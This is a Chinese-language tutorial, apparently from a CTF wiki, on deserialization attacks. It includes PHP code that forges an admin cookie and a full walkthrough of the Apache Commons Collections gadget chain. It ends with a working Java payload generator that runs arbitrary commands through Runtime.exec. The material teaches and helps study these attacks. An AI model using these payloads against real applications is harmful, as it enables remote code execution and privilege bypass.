


从反序列化到命令执行 - Java 中的 POP 执行链¶
序列化常用于将程序运行时的对象状态以二进制的形式存储于文件系统中，然后可以在另一个程序中对序列化后的对象状态数据进行反序列化恢复对象。简单的说就是可以基于序列化数据实时在两个程序中传递程序对象。

在第一段代码里面，程序将实例对象 String("This is String object!")通过 ObjectOutputStream 类的 writeObject() 函数写到了文件里。序列化对象在具有一定的二进制结构，以十六进制格式查看存储了序列化对象的文件，除了包含一些字符串常量以外，还能看到其具有不可打印的字符在里面，而这些字符就是用来描述其序列化结构的。
Java 序列化特征¶
在序列化对象数据中，头4个字节存储的是 Java 序列化对象数据特有的 Magic Number 和相应的协议版本，通常为：
1 2 | 0xaced (Magic Number) 0x0005 (Version Number) |
在具体序列化一个对象时，会遵循序列化协议进行数据封装.
列化后的 Java 对象二进制数据通常以 0xaced0005 这 4 个字节开始就可以了。对 Java 应用序列化对象交互的接口寻找就可以通过监测这 4 个特殊字节来进行。
在 Java 里，可以序列化一个对象成为具有一定数据格式的二进制数据，也可以从数据流程中恢复一个实例对象。而进行序列化和反序列化时会使用两个类，如下：
1 2 3 4 5 6 7 8 9 10 11 | // 序列化对象 java.io.ObjectOutputStream writeObject() writeUnshared() ... // 反序列化对象 java.io.ObjectInputStream readObject() readUnshared() ... |
也可以在对象中重写 writeObject() 和 readObject() 函数，来进行一些特殊的状态和数据的控制。
如果我们需要寻找某个 Java 应用的序列化数据交互接口时，就可以直接进行全局代码搜索序列化和反序列化中常用的那些函数和方法，当找到 Java 应用的序列化数据交互接口后，便可以开始考虑具体的利用方法了。
反序列化的危害¶
下面是一段代码是 PHP 代码中将序列化数据以 Cookie 形式存储的实例（user.php）：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 | <?php class User { public $username = ''; private $is_admin = false; function __construct($username) { $this->username = $username; } function isAdmin() { return $this->is_admin; } } function initUser() { $user = new User('Guest'); $data = base64_encode(serialize($user)); setCookie('user', $data, time()+3600); echo '<script>location.href="./user.php"</script>'; } if(isset($_COOKIE['user'])) { $user = unserialize(base64_decode($_COOKIE['user'])); if($user) { if($user->isAdmin()) { echo 'Welcome Come Back, Admninistrator.'; } else { echo "Hello, $user->username."; } } else { initUser(); } } else { initUser(); } |
这段代码将用户信息以 base64_encode(serialize($user)) 的形式存储于客户端的 $_COOKIE['data'] 里，对序列化敏感的都知道可以自己构造序列化内容然后传递给服务端，使其改变代码逻辑。使用下面这段代码生成 $is_admin = true 的用户信息：
1 2 3 4 5 6 7 | <?php class User { public $username = 'Guest'; private $is_admin = true; } echo base64_encode(serialize(new User())); |
用生成好的 Payload 修改 Cookie 后再次访问即可看到 Welcome Come Back, Admninistrator. 的输出信息。
Java 中也可以利用反序列化控制代码流程（传播的毕竟是一个对象实例）， 但在 Java 中想要随便反序列化一个类实例是不行的，进行反序列化的类必须显示声明 Serializable 接口，这样才允许进行序列化操作。
面向属性编程¶
面向属性编程（Property-Oriented Programing）常用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链做一些工作了。
Java 反序列化利用¶
InvokerTransformer.transform() 反射调用
在使用 Apache Commons Collections 库进行 Gadget 构造时主要利用了其 Transformer 接口。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 | public interface Transformer { /** * Transforms the input object (leaving it unchanged) into some output object. * * @param input the object to be transformed, should be left unchanged * @return a transformed object * @throws ClassCastException (runtime) if the input is the wrong class * @throws IllegalArgumentException (runtime) if the input is invalid * @throws FunctorException (runtime) if the transform cannot be completed */ public Object transform(Object input); } |
主要用于将一个对象通过 transform 方法转换为另一个对象，而在库中众多对象转换的接口中存在一个 Invoker 类型的转换接口 InvokerTransformer，并且同时还实现了 Serializable 接口。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 | public class InvokerTransformer implements Transformer, Serializable { ...省略... private final String iMethodName; private final Class[] iParamTypes; private final Object[] iArgs; public Object transform(Object input) { if (input == null) { return null; } try { Class cls = input.getClass(); // 反射获取类 Method method = cls.getMethod(iMethodName, iParamTypes); // 反射得到具有对应参数的方法 return method.invoke(input, iArgs); // 使用对应参数调用方法，并返回相应调用结果 } catch (NoSuchMethodException ex) { ...省略... |
可以看到 InvokerTransformer 类中实现的 transform() 接口使用 Java 反射机制获取反射对象 input 中的参数类型为 iParamTypes 的方法 iMethodName，然后使用对应参数 iArgs 调用获取的方法，并将执行结果返回。由于其实现了 Serializable 接口，因此其中的三个必要参数 iMethodName、iParamTypes 和 iArgs 都是可以通过序列化直接构造的，为命令执行创造的决定性的条件。
然后要想利用 InvokerTransformer 类中的 transform() 来达到任意命令执行，还需要一个入口点，使得应用在反序列化的时候能够通过一条调用链来触发 InvokerTransformer 中的 transform() 接口。
然而在 Apache Commons Collections 里确实存在这样的调用，其一是位于 TransformedMap 类中的 checkSetValue() 方法：
1 2 3 4 5 6 7 | public class TransformedMap extends AbstractInputCheckedMapDecorator implements Serializable { ...省略... protected Object checkSetValue(Object value) { return valueTransformer.transform(value); } |
而 TransformedMap 实现了 Map 接口，而在对字典键值进行 setValue() 操作时会调用 valueTransformer.transform(value)。
1 2 3 4 5 6 | ...省略... public Object setValue(Object value) { value = parent.checkSetValue(value); return entry.setValue(value); } } |
好的，现在已经找到了反射调用的上一步调用，这里为了多次进行多次反射调用，我们可以将多个 InvokerTransformer实例级联在一起组成一个 ChainedTransformer 对象，在其调用的时候会进行一个级联 transform() 调用：
1 2 3 4 5 6 7 8 | public class ChainedTransformer implements Transformer, Serializable {
...省略...
public Object transform(Object object) {
for (int i = 0; i < iTransformers.length; i++) {
object = iTransformers[i].transform(object);
}
return object;
}
|
现在已经可以造出一个 TransformedMap 实例，在对字典键值进行 setValue() 操作时候调我们构造的 ChainedTransformer，下面给出示例代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 | package exserial.examples; import org.apache.commons.collections.Transformer; import org.apache.commons.collections.functors.ChainedTransformer; import org.apache.commons.collections.functors.ConstantTransformer; import org.apache.commons.collections.functors.InvokerTransformer; import org.apache.commons.collections.map.TransformedMap; import java.util.HashMap; import java.util.Map; public class SetValueToExec { public static void main(String[] args) throws Exception { String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app"; String[] execArgs = command.split(","); Transformer[] transforms = new Transformer[] { new ConstantTransformer(Runtime.class), new InvokerTransformer( "getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]} ), new InvokerTransformer( "invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]} ), new InvokerTransformer( "exec", new Class[] {String[].class}, new Object[] {execArgs} ) }; Transformer transformerChain = new ChainedTransformer(transforms); Map tempMap = new HashMap<String, Object>(); Map<String, Object> exMap = TransformedMap.decorate(tempMap, null, transformerChain); exMap.put("1111", "2222"); for (Map.Entry<String, Object> exMapValue : exMap.entrySet()) { exMapValue.setValue(1); } } } |
根据之前的分析，将上面这段代码编译运行后会默认会弹出计算器，对代码详细执行过程有疑惑的可以通过单步调试进行测试：

然后我们现在只是测试了使用 TransformedMap 进行任意命令执行而已，要想在 Java 应用反序列化的过程中触发该过程还需要找到一个类，它能够在反序列化调用 readObject() 的时候调用 TransformedMap 内置类 MapEntry 中的 setValue() 函数，这样才能构成一条完整的 Gadget 调用链。恰好在 sun.reflect.annotation.AnnotationInvocationHandler 类具有 Map 类型的参数，并且在 readObject() 方法中触发了上面所提到的所有条件，其源码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 | private void readObject(java.io.ObjectInputStream s) {
...省略...
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
if (memberType != null) { // i.e. member still exists
Object value = memberValue.getValue();
if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));
}
}
}
}
|
可以注意到 memberValue 是 AnnotationInvocationHandler 类中类型声明为 Map<String, Object> 的成员变量，刚好和之前构造的 TransformedMap 类型相符，因此我们可以通过 Java 的反射机制动态的获取 AnnotationInvocationHandler 类，使用精心构造好的 TransformedMap 作为它的实例化参数，然后将实例化的 AnnotationInvocationHandler 进行序列化得到二进制数据，最后传递给具有相应环境的序列化数据交互接口使之触发命令执行的 Gadget，完整代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 | package exserial.payloads;
import java.io.ObjectOutputStream;
import java.util.Map;
import java.util.HashMap;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import exserial.payloads.utils.Serializables;
public class Commons1 {
public static Object getAnnotationInvocationHandler(String command) throws Exception {
String[] execArgs = command.split(",");
Transformer[] transforms = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}
),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}
),
new InvokerTransformer(
"exec",
new Class[] {String[].class},
new Object[] {execArgs}
)
};
Transformer transformerChain = new ChainedTransformer(transforms);
Map tempMap = new HashMap();
tempMap.put("value", "does't matter");
Map exMap = TransformedMap.decorate(tempMap, null, transformerChain);
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);
Object instance = ctor.newInstance(Target.class, exMap);
return instance;
}
public static void main(String[] args) throws Exception {
String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app";
Object obj = getAnnotationInvocationHandler(command);
ObjectOutputStream out = new ObjectOutputStream(System.out);
out.writeObject(obj);
}
}
|
最终用一段调用链可以清晰的描述整个命令执行的触发过程：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 | /* Gadget chain: ObjectInputStream.readObject() AnnotationInvocationHandler.readObject() AbstractInputCheckedMapDecorator$MapEntry.setValue() TransformedMap.checkSetValue() ConstantTransformer.transform() InvokerTransformer.transform() Method.invoke() Class.getMethod() InvokerTransformer.transform() Method.invoke() Runtime.getRuntime() InvokerTransformer.transform() Method.invoke() Runtime.exec() Requires: commons-collections <= 3.2.1 */ |